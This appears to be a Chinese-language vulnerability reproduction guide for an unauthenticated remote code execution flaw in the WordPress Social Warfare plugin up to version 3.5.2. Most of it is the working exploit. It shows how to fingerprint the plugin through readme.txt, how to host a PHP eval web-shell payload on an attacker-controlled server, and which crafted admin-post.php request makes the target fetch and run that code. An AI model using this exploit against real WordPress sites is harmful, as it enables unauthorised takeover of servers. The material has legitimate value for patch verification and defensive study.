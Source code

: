 # WordPress Plugin - Social Warfare<=3.5.2 RCE

> 原文：[http://book.iwonder.run/0day/Wordpress/26.html](http://book.iwonder.run/0day/Wordpress/26.html)

## 一、漏洞简介

2019 年 3 月 21 日插件作者紧急发布了 3.5.3 版本以修复高危的 RCE 漏洞，在<=3.5.2 版本中存在一处无需登录即可 getshell 的 RCE 漏洞。

## 二、漏洞影响

## 三、复现过程

### 漏洞分析

在/wp-content/plugins/social-warfare/lib/utilities/SWP_Database_Migration.php 文件中有一处 eval()函数，该函数将 file_get_contents()读取的文件内容当做 PHP 代码执行导致 RCE。

![image](img/e9de7b7642f014a9afb6f2ea9b9df70b.png)

### 漏洞利用

第一步：刺探是否安装了 Social Warfare 插件

访问

```
http://0-sec.org/wp-content/plugins/social-warfare/readme.txt 
```

如果存在 readme.txt 文件则说明已经安装该插件，并且从该 txt 文件中可获知插件的版本。

我的本机环境为 3.5.2 版本。

![image](img/fe743210ba81af65ba14ca6cad72a308.png)

第二步：在自己的 VPS 服务器上放置一个 code.txt 文件，并启动 HTTP 服务使该文件可通过 HTTP 访问。文件内容如下：

```
<pre>eval($_REQUEST['wpaa'])</pre> 
```

第三步：在未登陆任何账号的情况下直接访问如下链接即可 getshell。

```
http://0-sec.org/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://your_ip/code.txt&wpaa=phpinfo(); 
```

![image](img/34c3462d49fe9f6784a3c4a5fc135b54.png)

